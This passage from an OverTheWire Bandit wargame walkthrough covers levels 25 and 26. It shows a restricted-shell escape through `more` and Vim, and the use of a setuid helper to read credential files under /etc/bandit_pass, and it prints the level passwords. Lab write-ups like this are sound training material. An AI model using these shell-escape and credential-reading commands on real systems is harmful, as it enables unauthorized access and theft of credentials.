But, on super small screens, `more` allows to scroll through each line individually (and also enter shell commands), so you're going to need to either scrunch up your terminal super , so it's only one or two lines tall.

You should get something like this:

```
  _                     _ _ _   ___   __
 | |                   | (_) | |__ \ / /
 | |__   __ _ _ __   __| |_| |_   ) / /_
--More--(50%)
```

And now you can enter Vim by pressing `v`. From here on, you can make the screen bigger without worry.

In Vim, you can enter:

```vim
:set shell=/bin/bash
:!cat /etc/bandit_pass/bandit26
```

And you should see:

```
c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
```

Remember not to exit this shell. You'll want it for later.

You can also enter:

```vim
:shell
```

to enter bash.

---

## Level 26

```bash
ssh bandit26@bandit.labs.overthewire.org -p 2220 -i bandit26.sshkey
(see steps above; TL;DR: Make screen small, use more -> vim -> shell)
```

Let's investigate bandit26:

```bash
bandit26@bandit:~$ ls
bandit27-do  text.txt
bandit26@bandit:~$ ./bandit27-do
Run a command as another user.
  Example: ./bandit27-do id
bandit26@bandit:~$ # ^ this seems like a lie. It really runs the command provided. You don't have to give it an id.
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS

```

---